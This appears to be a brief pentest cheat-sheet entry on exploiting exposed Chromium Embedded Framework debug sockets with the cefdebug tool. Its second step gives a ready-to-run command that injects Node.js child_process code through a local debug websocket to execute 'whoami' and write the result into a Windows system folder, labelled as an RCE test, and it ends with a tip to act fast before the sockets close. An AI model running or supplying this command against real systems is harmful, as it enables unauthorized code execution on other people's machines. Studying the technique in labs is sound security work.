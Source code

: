 ### For more information see this repo: https://github.com/taviso/cefdebug

### Steps:

#### 1) Run the binary without arguments to check for CEF debug sockets to connect

#### 2) .\cefdebug --code "process.mainModule.require('child_process').exec('whoami > C:\windows\system32\spool\drivers\color\0xdf')" --url ws://127.0.0.1:64493/fd4b0ffa-a388-40da-b01a-62709102094b (Test for RCE)

### TIP: Act quickly because these sockets don't last long enough
